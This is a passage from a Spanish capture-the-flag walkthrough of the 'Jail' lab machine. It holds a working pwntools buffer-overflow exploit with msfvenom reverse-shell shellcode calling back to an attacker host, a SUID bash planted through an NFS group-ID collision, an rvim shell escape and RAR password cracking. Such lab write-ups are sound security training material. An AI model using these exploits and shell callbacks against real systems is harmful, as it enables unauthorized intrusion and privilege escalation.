\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.34/FUZZ}
\end{Highlighting}
\end{Shaded}

Vemos un directorio \texttt{/jailuser} que lista un directorio \texttt{dev} que contiene ficheros. Nos descargamos estos ficheros.

\hypertarget{analysando-el-puerto-7411}{%
\subsection*{Analysando el puerto 7411}\label{analysando-el-puerto-7411}}
\addcontentsline{toc}{subsection}{Analysando el puerto 7411}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.34 7411}
\end{Highlighting}
\end{Shaded}

Nos pone \textbf{send user command} pero no llegamos a ver nada por el momento.

\hypertarget{analyzando-el-nfs}{%
\subsection*{Analyzando el NFS}\label{analyzando-el-nfs}}
\addcontentsline{toc}{subsection}{Analyzando el NFS}

Buscando por internet que es el NFS y de que manera podriamos scanear este servicio, vemos que funcciona
como recursos compartidos a nivel de red que podriamos scanear con la utilidad \texttt{showmount} y que podriamos
montar en nuestro equipo.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{showmount}\NormalTok{ -e 10.10.10.34}
\end{Highlighting}
\end{Shaded}

\hypertarget{analysis-de-los-ficheros-descargados}{%
\subsection*{Analysis de los ficheros descargados}\label{analysis-de-los-ficheros-descargados}}
\addcontentsline{toc}{subsection}{Analysis de los ficheros descargados}

Hemos descargado 3 ficheros:

\begin{itemize}
\tightlist
\item
  jail
\item
  jail.c
\item
  compile.sh
\end{itemize}

El fichero \texttt{compile.sh} nos muestra de que manera compila el fichero jail.c para crear un binario jail de 32 bits y como lanza el servicio.

Miramos que typo de fichero y de seguridad lleva el fichero jail con:

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{chmod}\NormalTok{ +x jail}
\FunctionTok{file}\NormalTok{ jail}
\ExtensionTok{checksec}\NormalTok{ jail}
\end{Highlighting}
\end{Shaded}

Aqui vemos que este fichero es de 32 bits y vemos que no tiene ninguna proteccion como DEP o PIE.

Mirando el codigo del fichero \texttt{jail.c} vemos un print que nos dice \textbf{send user command} y que usa funcciones como \texttt{strcmp()}
que ya sabemos que son vulnerables.

Ahora que vemos por donde van los tiros y que esta maquina tocara un BOF, analyzamos las vulnerabilidades.

\hypertarget{vulnerability-assessment-32}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-32}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{buffer-overflow}{%
\subsection*{Buffer Overflow}\label{buffer-overflow}}
\addcontentsline{toc}{subsection}{Buffer Overflow}

El codigo nos muestra que compara una String con un username \texttt{admin} y una contraseña \texttt{1974jailbreak!}.
Vemos que hay una posibilidad de lanzar el binario en modo \textbf{Debug}.

Vemos que una de estas comparativas va con una variable \texttt{userpass} que solo tiene un Buffer de 16 Bytes y
que si lanzamos el binario en modo debug, nos printa la direccion memoria de esta variable.

Tambien vemos que el binario abre el puerto 7411 y lo comprobamos con \texttt{lsof}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{lsof}\NormalTok{ -i:7411}
\ExtensionTok{./jail}
\ExtensionTok{lsof}\NormalTok{ -i:7411}
\end{Highlighting}
\end{Shaded}

\hypertarget{analyzando-vulnerabilidades-con-gdb}{%
\subsubsection*{Analyzando vulnerabilidades con gdb}\label{analyzando-vulnerabilidades-con-gdb}}
\addcontentsline{toc}{subsubsection}{Analyzando vulnerabilidades con gdb}

Lanzamos el binario con gdb

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{gdb}\NormalTok{ ./jail}
\ExtensionTok{r}
\end{Highlighting}
\end{Shaded}

Y nos connectamos por el puerto 7411

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ localhost 7411}
\end{Highlighting}
\end{Shaded}

Vemos que el gdb a creado un processo hijo de modo Detach que no seria la buena forma para tratar. Lo comprobamos
colapsando el programa poniendo mas de 16 A en el password

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{OK}\NormalTok{ Ready. Send USER command.}
\ExtensionTok{USER}\NormalTok{ admin}
\ExtensionTok{OK}\NormalTok{ Send PASS command.}
\ExtensionTok{PASS}\NormalTok{ AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\end{Highlighting}
\end{Shaded}

Aqui no vemos nada en el gdb. En estos casos tenemos que configurar una cosa para ver el flujo del processo hijo.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{gdb}\NormalTok{ ./jail}
\KeywordTok{set} \ExtensionTok{detach-on-fork}\NormalTok{ off}
\KeywordTok{set} \ExtensionTok{follow-fork-mode}\NormalTok{ child}
\ExtensionTok{r}
\end{Highlighting}
\end{Shaded}

Aqui ya estamos syncronizados con el processo hijo.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ localhost 7411}
\ExtensionTok{OK}\NormalTok{ Ready. Send USER command.}
\ExtensionTok{USER}\NormalTok{ admin}
\ExtensionTok{OK}\NormalTok{ Send PASS command.}
\ExtensionTok{PASS}\NormalTok{ AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\end{Highlighting}
\end{Shaded}

Intentamos el modo debug

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ localhost 7411}
\ExtensionTok{OK}\NormalTok{ Ready. Send USER command.}
\ExtensionTok{DEBUG}
\ExtensionTok{OK}\NormalTok{ DEBUG mode on.}

\ExtensionTok{USER}\NormalTok{ admin}
\ExtensionTok{OK}\NormalTok{ Send PASS command.}
\ExtensionTok{PASS}\NormalTok{ AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA}
\ExtensionTok{Debug}\NormalTok{: userpass buffer @ 0xffffd140}
\end{Highlighting}
\end{Shaded}

Vemos la direccion de la variable userpass y si repetimos la movida multiples vecez, vemos que la direccion no cambia.
Ademas, ya vemos que sobre escribimos registros con A y desde aqui seguimos la guia de un BOF

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Buscamos Ganar el control del \textbf{eip}

  \begin{itemize}
  \item
    creamos un pattern de 150 caracteres

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gef}\NormalTok{➤ pattern create 150}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Generating a pattern of 150 bytes (n=4)}
\ExtensionTok{aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Saved as }\StringTok{'$_gef0'}
\end{Highlighting}
\end{Shaded}
  \item
    lanzamos el script otra vez y pegamos los caracteres

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ localhost 7411}
\ExtensionTok{OK}\NormalTok{ Ready. Send USER command.}
\ExtensionTok{USER}\NormalTok{ admin}
\ExtensionTok{OK}\NormalTok{ Send PASS command.}
\ExtensionTok{PASS}\NormalTok{ aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma}
\end{Highlighting}
\end{Shaded}
  \item
    el programa peta una vez mas pero el valor del \texttt{\$eip} a cambiado. Miramos el offset con el commando

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gef}\NormalTok{➤  pattern offset }\VariableTok{$eip}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Searching for }\StringTok{'$eip'}
\NormalTok{[}\ExtensionTok{+}\NormalTok{] Found at offset 28 (little-endian search) }\ExtensionTok{likely}
\end{Highlighting}
\end{Shaded}

    Aqui vemos que tenemos que entrar 28 caracteres antes de sobre escribir el \textbf{eip}.
  \item
    Probamos con 28 A y 4 B.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -c }\StringTok{'28*"A"+4*"B"'}
\ExtensionTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB}

\ExtensionTok{nc}\NormalTok{ localhost 7411}
\ExtensionTok{OK}\NormalTok{ Ready. Send USER command.}
\ExtensionTok{USER}\NormalTok{ admin}
\ExtensionTok{OK}\NormalTok{ Send PASS command.}
\ExtensionTok{PASS}\NormalTok{ AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB}
\end{Highlighting}
\end{Shaded}
  \item
    añadimos 4 C para saber donde caen la cosas despues del \textbf{eip}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python}\NormalTok{ -c }\StringTok{'28*"A"+4*"B"+8*"C"'}
\ExtensionTok{AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCC}

\ExtensionTok{nc}\NormalTok{ localhost 7411}
\ExtensionTok{OK}\NormalTok{ Ready. Send USER command.}
\ExtensionTok{USER}\NormalTok{ admin}
\ExtensionTok{OK}\NormalTok{ Send PASS command.}
\ExtensionTok{PASS}\NormalTok{ AAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCC}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\item
  Miramos lo que hay en la direccion de la variable userpass

  \begin{itemize}
  \item
    lo miramos en forma normal

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gef}\NormalTok{➤  x/s 0xffffd140}
\CommentTok{#Output}
\ExtensionTok{0xffffd140}\NormalTok{: }\StringTok{'A'} \OperatorTok{<}\NormalTok{repeats 28 times}\OperatorTok{>}\NormalTok{, }\StringTok{"BBBBCCCCCCCC"}
\end{Highlighting}
\end{Shaded}
  \item
    lo miramos en forma hexadecimal

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{gef}\NormalTok{➤  x/16wx 0xffffd140}
\CommentTok{#Output}
\ExtensionTok{0xffffd140}\NormalTok{  0x41414141  0x41414141  0x41414141  0x41414141}
\ExtensionTok{0xffffd150}\NormalTok{  0x41414141  0x41414141  0x41414141  0x42424242}
\ExtensionTok{0xffffd160}\NormalTok{  0x43434343  0x43434343  0x00000100  0xf7ff4070}
\ExtensionTok{0xffffd170}\NormalTok{  0x00000001  0xf7ffd590  0x00000000  0x414112db}
\end{Highlighting}
\end{Shaded}
  \end{itemize}
\end{enumerate}

Aqui vemos que la direccion \texttt{0xffffd140} apunta al principio del Buffer (la entrada del usuario). Esto significa
que si el \textbf{eip} apunta a la direccion \texttt{0xfffd140} sumada por 32 bytes (que serian las 28 A mas los 4 bytes del \textbf{eip}),
podriamos ejecutar el shellcode que queremos.

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Jail-Buffer-shellcode-pos} \caption{Buffer shell code position}\label{fig:unnamed-chunk-81}
\end{figure}

Para esto nos creamos un script en python

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\NormalTok{context(os}\OperatorTok{=}\StringTok{'linux'}\NormalTok{, arch}\OperatorTok{=}\StringTok{'i386'}\NormalTok{)}

\NormalTok{p }\OperatorTok{=}\NormalTok{ remote(}\StringTok{"127.0.0.1"}\NormalTok{, }\DecValTok{7411}\NormalTok{)}
\CommentTok{# p = remote("10.10.10.34", 7411)}


\NormalTok{buf }\OperatorTok{=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}xdb\textbackslash{}xc8\textbackslash{}xd9\textbackslash{}x74\textbackslash{}x24\textbackslash{}xf4\textbackslash{}x5e\textbackslash{}xbb\textbackslash{}xc5\textbackslash{}x90\textbackslash{}x9f\textbackslash{}x66\textbackslash{}x33}\StringTok{"}
\NormalTok{buf }\OperatorTok{+=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}xc9\textbackslash{}xb1\textbackslash{}x12\textbackslash{}x83\textbackslash{}xee\textbackslash{}xfc\textbackslash{}x31\textbackslash{}x5e\textbackslash{}x13\textbackslash{}x03\textbackslash{}x9b\textbackslash{}x83\textbackslash{}x7d}\StringTok{"}
\NormalTok{buf }\OperatorTok{+=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}x93\textbackslash{}x12\textbackslash{}x7f\textbackslash{}x76\textbackslash{}xbf\textbackslash{}x07\textbackslash{}x3c\textbackslash{}x2a\textbackslash{}x2a\textbackslash{}xa5\textbackslash{}x4b\textbackslash{}x2d\textbackslash{}x1a}\StringTok{"}
\NormalTok{buf }\OperatorTok{+=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}xcf\textbackslash{}x86\textbackslash{}x2e\textbackslash{}xc8\textbackslash{}x56\textbackslash{}xa9\textbackslash{}x10\textbackslash{}x22\textbackslash{}xe8\textbackslash{}x80\textbackslash{}x17\textbackslash{}x45\textbackslash{}x80}\StringTok{"}
\NormalTok{buf }\OperatorTok{+=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}x18\textbackslash{}xe2\textbackslash{}xbb\textbackslash{}x58\textbackslash{}x75\textbackslash{}xf0\textbackslash{}xc3\textbackslash{}x59\textbackslash{}x3e\textbackslash{}x7d\textbackslash{}x22\textbackslash{}xe9\textbackslash{}x26}\StringTok{"}
\NormalTok{buf }\OperatorTok{+=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}x2e\textbackslash{}xf4\textbackslash{}x5a\textbackslash{}x14\textbackslash{}xcd\textbackslash{}x7f\textbackslash{}xbd\textbackslash{}x97\textbackslash{}x52\textbackslash{}x2d\textbackslash{}x55\textbackslash{}x46\textbackslash{}x7c}\StringTok{"}
\NormalTok{buf }\OperatorTok{+=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}xa1\textbackslash{}xcd\textbackslash{}xfe\textbackslash{}xad\textbackslash{}x6a\textbackslash{}x6f\textbackslash{}x96\textbackslash{}x38\textbackslash{}x97\textbackslash{}x3d\textbackslash{}x3b\textbackslash{}xb2\textbackslash{}xb9}\StringTok{"}
\NormalTok{buf }\OperatorTok{+=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}x71\textbackslash{}xb0\textbackslash{}x09\textbackslash{}xb9}\StringTok{"}

\NormalTok{before_eip }\OperatorTok{=}\NormalTok{ (}\StringTok{"A"} \OperatorTok{*} \DecValTok{28}\NormalTok{).encode()}
\NormalTok{EIP }\OperatorTok{=}\NormalTok{ p32(}\BaseNTok{0xffffd140}\OperatorTok{+}\DecValTok{32}\NormalTok{)}
\NormalTok{after_eip }\OperatorTok{=}\NormalTok{ buf}

\NormalTok{p.recvuntil(}\StringTok{"OK Ready. Send USER command."}\NormalTok{)}
\NormalTok{p.sendline(}\StringTok{"USER admin"}\NormalTok{)}
\NormalTok{p.recvuntil(}\StringTok{"OK Send PASS command."}\NormalTok{)}
\NormalTok{p.sendline(}\StringTok{"PASS "}\NormalTok{.encode() }\OperatorTok{+}\NormalTok{ before_eip }\OperatorTok{+}\NormalTok{ EIP }\OperatorTok{+}\NormalTok{ after_eip)}
\end{Highlighting}
\end{Shaded}

\begin{quote}
{[} ! {]} NOTAS: el shellcode a sido creado con el comando \texttt{msfvenom\ -p\ linux/x86/shell\_reverse\_tcp\ LHOST=10.10.14.8\ LPORT=443\ -b\ "\textbackslash{}x00\textbackslash{}x0a"\ -f\ python}. Los badchars
aqui son los que ponemos siempre.
\end{quote}

Ahora testeamos el script

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Lanzamos el jail

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./jail}
\end{Highlighting}
\end{Shaded}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el script en python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ exploit.py}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

En este caso no funcciona y tito nos adelanta que el problema viene que de vez en cuando, el espacio del shellcode sobrepasa el limite de caracteres que podemos injectar,
o mejor dicho es demasiado grande. Esta limitacion puede ser bypasseada por una tecnica llamada \textbf{reuse addr} explicada en la web de \href{https://rastating.github.io/using-socket-reuse-to-exploit-vulnserver/}{rastating}.
La tecnica consiste en utilizar methodos \textbf{send} o \textbf{recv} del socket de coneccion para ganar espacio para el shellcode.

Si buscamos por shellcode re-use en \href{https://www.exploit-db.com/shellcodes/34060}{exploit-db}, podemos encontrar shellcode que crearian un \texttt{/bin/bash}

Modificamos el shellcode del exploit.py y ganamos accesso a la maquina victima

\hypertarget{vuln-exploit-gaining-access-32}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-32}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-el-bufferoverflow}{%
\subsection*{Ganando accesso con el bufferoverflow}\label{ganando-accesso-con-el-bufferoverflow}}
\addcontentsline{toc}{subsection}{Ganando accesso con el bufferoverflow}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Lanzamos el debug mode para recuperar la direccion del buffer

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ 10.10.10.34 7411}
\ExtensionTok{OK}\NormalTok{ Ready. Send USER command.}
\ExtensionTok{DEBUG}
\ExtensionTok{OK}\NormalTok{ DEBUG mode on.}
\ExtensionTok{USER}\NormalTok{ admin}
\ExtensionTok{OK}\NormalTok{ Send PASS command.}
\ExtensionTok{PASS}\NormalTok{ admin}
\ExtensionTok{Debug}\NormalTok{: userpass buffer @ 0xffffd140}
\end{Highlighting}
\end{Shaded}
\item
  Modificamos el script en python

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#!/usr/bin/python3}

\ImportTok{from}\NormalTok{ pwn }\ImportTok{import} \OperatorTok{*}

\NormalTok{context(os}\OperatorTok{=}\StringTok{'linux'}\NormalTok{, arch}\OperatorTok{=}\StringTok{'i386'}\NormalTok{)}

\CommentTok{# p = remote("127.0.0.1", 7411)}
\NormalTok{p }\OperatorTok{=}\NormalTok{ remote(}\StringTok{"10.10.10.34"}\NormalTok{, }\DecValTok{7411}\NormalTok{)}

\NormalTok{buf }\OperatorTok{=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}x6a\textbackslash{}x02\textbackslash{}x5b\textbackslash{}x6a\textbackslash{}x29\textbackslash{}x58\textbackslash{}xcd\textbackslash{}x80\textbackslash{}x48\textbackslash{}x89\textbackslash{}xc6}\StringTok{"}
\NormalTok{buf }\OperatorTok{+=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}x31\textbackslash{}xc9\textbackslash{}x56\textbackslash{}x5b\textbackslash{}x6a\textbackslash{}x3f\textbackslash{}x58\textbackslash{}xcd\textbackslash{}x80\textbackslash{}x41\textbackslash{}x80}\StringTok{"}
\NormalTok{buf }\OperatorTok{+=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}xf9\textbackslash{}x03\textbackslash{}x75\textbackslash{}xf5\textbackslash{}x6a\textbackslash{}x0b\textbackslash{}x58\textbackslash{}x99\textbackslash{}x52\textbackslash{}x31\textbackslash{}xf6}\StringTok{"}
\NormalTok{buf }\OperatorTok{+=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}x56\textbackslash{}x68\textbackslash{}x2f\textbackslash{}x2f\textbackslash{}x73\textbackslash{}x68\textbackslash{}x68\textbackslash{}x2f\textbackslash{}x62\textbackslash{}x69\textbackslash{}x6e}\StringTok{"}
\NormalTok{buf }\OperatorTok{+=}\NormalTok{ b}\StringTok{"}\CharTok{\textbackslash{}x89\textbackslash{}xe3\textbackslash{}x31\textbackslash{}xc9\textbackslash{}xcd\textbackslash{}x80}\StringTok{"}


\NormalTok{before_eip }\OperatorTok{=}\NormalTok{ (}\StringTok{"A"} \OperatorTok{*} \DecValTok{28}\NormalTok{).encode()}
\NormalTok{EIP }\OperatorTok{=}\NormalTok{ p32(}\BaseNTok{0xffffd140}\OperatorTok{+}\DecValTok{32}\NormalTok{)}
\NormalTok{after_eip }\OperatorTok{=}\NormalTok{ buf}

\NormalTok{p.recvuntil(}\StringTok{"OK Ready. Send USER command."}\NormalTok{)}
\NormalTok{p.sendline(}\StringTok{"USER admin"}\NormalTok{)}
\NormalTok{p.recvuntil(}\StringTok{"OK Send PASS command."}\NormalTok{)}
\NormalTok{p.sendline(}\StringTok{"PASS "}\NormalTok{.encode() }\OperatorTok{+}\NormalTok{ before_eip }\OperatorTok{+}\NormalTok{ EIP }\OperatorTok{+}\NormalTok{ after_eip)}

\NormalTok{p.interactive()}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el script en python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ exploit.py}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya hemos ganado acceso al systema como el usuario \textbf{nobody} pero no podemos leer la flag y nos tenemos que convertir en el usuario frank.

\hypertarget{user-pivoting-4}{%
\subsection*{User pivoting}\label{user-pivoting-4}}
\addcontentsline{toc}{subsection}{User pivoting}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Vemos que podemos lanzar el script \texttt{/opt/logreader/logreader.sh} como el usuario frank sin proporcionar contraseña.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ /opt/logreader/logreader.sh}
\FunctionTok{sudo}\NormalTok{ -u frank /opt/logreader/logreader.sh}
\FunctionTok{which}\NormalTok{ strace}
\FunctionTok{which}\NormalTok{ ltrace}
\FunctionTok{which}\NormalTok{ checkproc}
\end{Highlighting}
\end{Shaded}

Vemos que podemos lanzar el script pero no sabemos exactamente lo que hace y no lo podemos debuggear.

Miramos a los recursos compartidos \textbf{nfs} de la maquina

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ /etc/exports}
\end{Highlighting}
\end{Shaded}

Nos creamos dos monturas en nuestra maquina de atacante

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mkdir}\NormalTok{ /mnt/}\DataTypeTok{\{opt,var\}}
\BuiltInTok{cd}\NormalTok{ /mnt}
\FunctionTok{mount}\NormalTok{ -t nfs 10.10.10.34:/opt /mnt/opt}
\FunctionTok{mount}\NormalTok{ -t nfs 10.10.10.34:/var/nfsshare /mnt/var}
\FunctionTok{ls}\NormalTok{ -l}
\FunctionTok{ls}\NormalTok{ -l opt/}
\FunctionTok{ls}\NormalTok{ -l opt/logreader}
\FunctionTok{ls}\NormalTok{ -l opt/rh}
\FunctionTok{ls}\NormalTok{ -l var/}
\end{Highlighting}
\end{Shaded}

Aqui vemos que no tenemos derechos de lectura ni de escritura sobre el directorio opt y var pero algo que nos llama la atencion son los user y groups asignados a estos
directorios, sobre todo el directorio var que se nos aparece como estando del grupo docker.

\begin{figure}
\includegraphics[width=0.9\linewidth]{images/Jail-lla} \caption{groups nfs share folders}\label{fig:unnamed-chunk-82}
\end{figure}

Esto suele pasar porque nuestro grupo docker en nuestra maquina de atacante tiene el mismo id que el usuario franck de la maquina victima. Esto significa que
hay una colision entre los dos grupos y que como usuario del grupo docker en nuestra maquina de atacante, podemos crear ficheros como el usuario franck de la
maquina victima

\begin{quote}
{[} ! {]} NOTAS: Si no existe docker en nuestra maquina de atacante, tendriamos que ver el numero 1000 y tendriamos que crear un grupo con este id para operar
\end{quote}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un fichero en C en el directorio \texttt{/mnt/var}

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{#include <unistd.h>}
\CommentTok{#include <stdio.h>}

\ExtensionTok{int}\NormalTok{ main()}\KeywordTok{\{}
    \ExtensionTok{setreuid}\NormalTok{(1000, 1000);}
    \ExtensionTok{system}\NormalTok{(}\StringTok{"/bin/bash"}\NormalTok{);}
    \BuiltInTok{return}\NormalTok{ 0}\KeywordTok{;}
\KeywordTok{\}}
\end{Highlighting}
\end{Shaded}
\item
  Compilamos el script

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{gcc}\NormalTok{ shell.c -o shell}
\end{Highlighting}
\end{Shaded}
\item
  Cambiamos el grupo y ponemos derechos SUID al binario

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{chgrp}\NormalTok{ 1000 shell}
\FunctionTok{chmod}\NormalTok{ u+s shell}
\end{Highlighting}
\end{Shaded}
\item
  lanzamos el script desde la maquina victima

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{./shell}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{frank}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya podemos leer la flag.

\begin{quote}
{[} ! {]} NOTAS: como la reverse shell no es la mejor del mundo, aqui nos podriamos crear una id\_rsa y copiarla en el authorized\_keys del usuario Frank para
conectarnos por ssh y obtener una mejor shell.
\end{quote}

\hypertarget{privilege-escalation-29}{%
\section*{Privilege Escalation}\label{privilege-escalation-29}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-38}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-38}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Aqui vemos que podriamos ejecutar el \texttt{/usr/bin/rvim} del fichero \texttt{/var/www/html/jailuser/dev/jail.c} como el usuario adm sin proporcionar contraseña.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -u adm /usr/bin/rvim /var/www/html/jailuser/dev/jail.c}

\BuiltInTok{:}\NormalTok{!/bin/sh}
\CommentTok{#Output }
\ExtensionTok{No}\NormalTok{ se permite orden de consola en rvim}

\NormalTok{:}\ExtensionTok{set}\NormalTok{ shell = /bin/bash}
\NormalTok{:}\ExtensionTok{shell}
\end{Highlighting}
\end{Shaded}

Aqui vemos que no podemos ejecutar comandos pero lo bueno es que rvim permite ejecutar codigo en python

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{:}\ExtensionTok{py}\NormalTok{ import pty}\KeywordTok{;}\ExtensionTok{pty.spawn}\NormalTok{(}\StringTok{"/bin/bash"}\NormalTok{)}
\FunctionTok{whoami} 
\CommentTok{#Output}
\ExtensionTok{adm}
\end{Highlighting}
\end{Shaded}

Aqui vemos que estamos en el directorio \texttt{/var/adm}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -la}
\BuiltInTok{cd}\NormalTok{ .keys}
\FunctionTok{ls}\NormalTok{ -la}
\FunctionTok{cat}\NormalTok{ note.txt}
\end{Highlighting}
\end{Shaded}

Vemos un mensaje del Administrator a frank diciendole que su contraseña para encryptar cosas tiene que ser sur segundo nombre seguido de 4 digitos y un simbolo.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ .local}
\FunctionTok{ls}\NormalTok{ -la}
\FunctionTok{cat}\NormalTok{ .frank}
\CommentTok{#Output}
\ExtensionTok{Szszsz}\NormalTok{! Mlylwb droo tfvhh nb mvd kzhhdliw! Lmob z uvd ofxpb hlfoh szev Vhxzkvw uiln Zoxzgiza zorev orpv R wrw!!!}
\end{Highlighting}
\end{Shaded}

Lanzamos la web de \href{https://www.quipqiup.com/}{quipqiup} y copiamos el mensaje y nos lo traduce por
\textbf{Hahaha! Nobody will guess my new password! Only a few lucky souls have Escaped from Alcatraz alive like I did!!!}

Tambien hay un \texttt{keys.rar}.

Lo codificamos en base64 y nos lo tranferimos a nuestra maquina de atacante.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{base64}\NormalTok{ -w 0 keys.rar}\KeywordTok{;} \BuiltInTok{echo}
\end{Highlighting}
\end{Shaded}

y desde la maquina de atacante no copiamos el base64 y lo decodificamos

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{echo} \StringTok{"hash de base64"} \KeywordTok{|} \ExtensionTok{base64}\NormalTok{ -d }\OperatorTok{>}\NormalTok{ keys.rar}
\ExtensionTok{unrar}\NormalTok{ x keys.rar}
\end{Highlighting}
\end{Shaded}

Aqui nos pide una contraseña para unrarear el \texttt{keys.rar} y buscando por internet Alcatraz Escape vemos que un Frank Morris se escapo de Alcatraz en 1962.
Vamos a tirar de la utilidad de crunch para crackear la contraseña.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crunch}\NormalTok{ 11 11 -t Morris1962^ }\OperatorTok{>}\NormalTok{ passwords}
\ExtensionTok{rar2john}\NormalTok{ keys.rar }\OperatorTok{>}\NormalTok{ hash}
\ExtensionTok{john}\NormalTok{ --wordlist=passwords hash}
\end{Highlighting}
\end{Shaded}

Encontramos la contraseña \texttt{Morris1962!}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{unrar}\NormalTok{ x keys.rar}
\ExtensionTok{Password}\NormalTok{: Morris1962!}
\FunctionTok{mv}\NormalTok{ rootauthorizedsshkey.pub id_rsa.pub}
\FunctionTok{cat}\NormalTok{ id_rsa.pub}
\end{Highlighting}
